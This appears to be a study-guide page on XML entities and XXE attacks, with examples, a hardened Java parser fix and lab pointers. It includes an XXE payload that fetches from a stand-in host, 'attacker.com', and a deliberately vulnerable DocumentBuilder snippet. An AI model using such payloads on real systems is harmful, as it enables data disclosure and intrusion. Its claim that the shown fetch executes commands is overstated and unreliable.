


## XML Essentials Part 1: Understanding XML Entities and External Entity References

### Introduction to XML

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which is primarily used for displaying data, XML focuses on the structure and semantics of the data itself. XML documents consist of elements, attributes, and text content, all of which are defined using tags.

#### Elements and Attributes

- **Elements**: The basic building blocks of an XML document. They are defined by start and end tags, such as `<element>` and `</element>`.
- **Attributes**: Additional information attached to an element, specified within the start tag. For example, `<element attribute="value">`.

#### Text Content

Text content is the data enclosed between the start and end tags of an element. For instance:

```xml
<sample>
  This is some text content.
</sample>
```

### XML Entities

Entities in XML are placeholders that represent specific characters or strings. They are defined using the `<!ENTITY>` declaration and can be referenced within the document using `&entity;`.

#### Declaring Entities

Entities can be declared at the beginning of an XML document using the `<!DOCTYPE>` declaration. Here’s an example:

```xml
<!DOCTYPE sample [
  <!ENTITY entity1 "This is entity 1">
]>
<sample>
  &entity1;
</sample>
```

In this example, `&entity1;` will be replaced with "This is entity 1".

#### Internal vs. External Entities

Entities can be either internal or external. Internal entities are defined within the same document, while external entities reference files or resources outside the current document.

##### Internal Entity Example

```xml
<!DOCTYPE sample [
  <!ENTITY entity1 "This is entity 1">
]>
<sample>
  &entity1;
</sample>
```

##### External Entity Example

External entities reference files or resources outside the current document. This is done using the `SYSTEM` keyword followed by the URL or file path.

```xml
<!DOCTYPE sample [
  <!ENTITY entity1 SYSTEM "file:///path/to/file.xml">
]>
<sample>
  &entity1;
</sample>
```

### External Entity References (XXE)

External Entity References (XXE) allow an XML document to reference external resources. This can be exploited in certain scenarios to perform attacks like information disclosure, denial of service, or even remote code execution.

#### XXE Vulnerability Example

Consider an XML document that references an external entity:

```xml
<!DOCTYPE sample [
  <!ENTITY entity1 SYSTEM "http://remote.com/xml">
]>
<sample>
  &entity1;
</sample>
```

If the XML parser is configured to resolve external entities, it will fetch the content from `http://remote.com/xml` and insert it into the document.

### Real-World Examples of XXE Attacks

#### CVE-2019-1010156: XXE in Apache Struts

Apache Struts is a popular Java framework for developing web applications. In 2019, a critical vulnerability (CVE-2019-1010156) was discovered in Apache Struts that allowed attackers to exploit XXE vulnerabilities to execute arbitrary commands on the server.

**Exploit Example**

An attacker could craft an XML payload that includes an external entity reference to a malicious URL:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://attacker.com/exploit" >
]>
<foo>&xxe;</foo>
```

When the server parses this XML, it would fetch the content from `http://attacker.com/exploit`, potentially executing arbitrary commands.

### How to Prevent / Defend Against XXE Attacks

#### Detection

To detect XXE vulnerabilities, you can use static analysis tools and manual code reviews. Tools like OWASP ZAP, Burp Suite, and commercial security scanners can help identify potential XXE vulnerabilities.

#### Prevention

1. **Disable External Entity Resolution**: Configure your XML parser to disable the resolution of external entities. This can be done by setting the appropriate configuration options in your XML parsing library.

2. **Input Validation**: Validate all user input to ensure it does not contain malicious XML content. Use libraries and frameworks that provide built-in validation mechanisms.

3. **Secure Coding Practices**: Follow secure coding practices to avoid introducing XXE vulnerabilities. Ensure that all XML inputs are properly sanitized and validated.

#### Secure Code Fix Example

**Vulnerable Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
```

**Fixed Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
```

In the fixed code, we disable the parsing of DOCTYPE declarations and external entities, effectively preventing XXE attacks.

### Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on XXE exploitation.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security techniques, including XXE.

### Conclusion

Understanding XML entities and external entity references is crucial for securing XML-based applications. By disabling external entity resolution, validating user input, and following secure coding practices, you can effectively prevent XXE attacks and ensure the security of your applications.

### Diagrams

#### XML Document Structure



#### XXE Attack Flow



### Further Reading

- OWASP XML External Entities (XXE) Prevention Cheat Sheet
- Apache Struts Security Advisories
- OWASP Juice Shop Documentation

By thoroughly understanding and implementing these concepts, you can significantly enhance the security of your XML-based applications.

---
<!-- nav -->
[[02-XML Essentials Part 1 Understanding XML Entities and Document Types|XML Essentials Part 1 Understanding XML Entities and Document Types]] | [[API Security/22-Offensive XXE Exploitation/02-XML Essentials Part 1/00-Overview|Overview]] | [[04-XML Essentials and Offensive XXE Exploitation|XML Essentials and Offensive XXE Exploitation]]
